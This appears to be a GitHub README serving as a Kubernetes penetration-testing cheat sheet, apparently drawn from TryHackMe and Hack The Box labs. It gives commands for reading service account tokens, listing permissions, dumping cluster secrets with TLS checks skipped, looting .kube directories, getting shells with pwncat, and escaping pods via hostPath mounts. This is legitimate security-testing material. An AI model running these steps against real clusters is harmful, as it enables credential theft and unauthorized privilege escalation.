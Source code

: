 # Kubernetes Exploit Hub

## Description
These are a collection of methods and tools I've found useful on pentesting Kubernetes Clusters. 

References to setup an AKS Cluster in Azure:
https://docs.microsoft.com/en-us/azure/aks/learn/quick-kubernetes-deploy-portal?tabs=azure-cli

### Microsoft Recon

If you have some Microsoft creds that have access to an AKS cluster

Login:
```
az login
```

Configure kubectl to connect to your Kubernetes cluster:
```
az aks get-credentials --resource-group myResourceGroup --name myAKSCluster
```

If you are on a administrative VM with WSL or linux box. You can and should loot the .kube directory!

### Discovery and Enumeration
**Discovery with nmap (Sample with IP Address):**

```
nmap -sC -sV -p- -oA Kubernetes1 10.10.197.28
```

Pay attention to DNS names from NMAP scan outputs as they can give away that you are working with a Kubernetes environment when you have a cluster operating on a non standard port. 

**Discovering Kubernetes Clusters with Kube Hunter:**

Note: You can do single IP addresses or entire subnet ranges with this tool. If on a penetration testing engagement this should be helpful for fingerprinting kubernetes clusters and developing a quick win on potential pod misconfigurations. 

Software URL:https://github.com/aquasecurity/kube-hunter

Installation:
```
sudo pip3 install kube-hunter
```

Run Kube hunter:

```
kube-hunter
```

### Initial Exploitation

After Gaining access to a cluster. Usually by misconfiguration with the application that it is hosting. PHP, Grafana, etc.

**Service Account Token Location**
```
/var/run/secrets/kubernetes.io/serviceaccount/token
```

Dropping out token and exporting it with your current terminal session:
```
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

```
export TOKEN={TOKEN}
```

**Checking your permissions with the current token that you have(remote command):**
```
kubectl --server https://serverip:port --token=$TOKEN auth can-i --list
```

If cluster is running a self sign certificate then add insecure tls to your command:
```
kubectl --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify auth can-i --list
```
**Checking your permissions with the current token that you have (Local Commands):**

This is basically the same thing as above with the exception that you are dropping the --server command

ProTip: If you need to do file transfers to a pod. Its very possible you may be in a pod without wget or curl commands. Normally I am only transfer kubectl and a poisoned pod of some sort. Pwncat-cs has been an excellent choice not only from an upload standpoint but you will have a nice full tty session to work with as well. 

Github: https://github.com/calebstewart/pwncat

Installation:

```
pip install pwncat-cs
```

Install with venv (What I would recommend so you don't impact other projects with python version dependicies on your attack box.) 

```
python3 -m venv pwncat-env
source pwncat-env/bin/activate
pip install pwncat-cs
```

Check Permissions:
```
kubectl --token=$TOKEN auth can-i --list
```

**Checking out what PODS are running**
(Remote):
```
kubectl get pods --server https://serverip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl get pods --token=$TOKEN
```
**Get POD Configurations**

This is useful if you need to produce an image of the same type with a posioned pod for later. 

(Local):
```
./kubectl get pod php-deploy-6d998f68b9-wlslz --token=$TOKEN -o yaml
```
**Hunting for API's and getting secrets from them**

Get API's

(Remote):
```
kubectl api-resources --server https://ip:port --token=$TOKEN --insecure-skip-tls-verify
```

(Local):
```
kubectl api-resources --token=$TOKEN --insecure-skip-tls-verify
```

Get namespaces from within API Example is through a API called "secrets":

(Remote):
```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets --all-namespaces
```

(Local):
```
kubectl --token=$TOKEN secrets --all-namespaces
```

Pull up YAML output of name/namespaces(example for flag3):

```
kubectl --server https://10.10.103.214:6443 --token=$TOKEN --insecure-skip-tls-verify get secrets flag3 -n kube-system -o yaml
```

### Escaping with bad pods

URL Reference: https://github.com/BishopFox/badPods

**Tips and Tricks with bad pods:**

If Isolated from internet include this in your yaml config:

```
imagePullPolicy: IfNotPresent
```

Always make note of your mount point when breaking out from a pod. This will be in your yaml config of your bad pod. For example this will make your mount point at /host:

```
volumeMounts:
    - mountPath: /host
      name: noderoot
```
## Penetration Testing Resources on Kubernetes

**Try Hack Me Rooms:**

Insekube: https://tryhackme.com/room/insekube

Frank & Herby make an app: https://tryhackme.com/room/frankandherby

Frank and Herby try again: https://tryhackme.com/room/frankandherbytryagain

PalsForLife: https://tryhackme.com/room/palsforlife

Kubernetes for Everyone: https://tryhackme.com/room/kubernetesforyouly

Island Orchestration: https://tryhackme.com/room/islandorchestration

**Hack The Box rooms**

Unobtainium: https://app.hackthebox.com/machines/Unobtainium
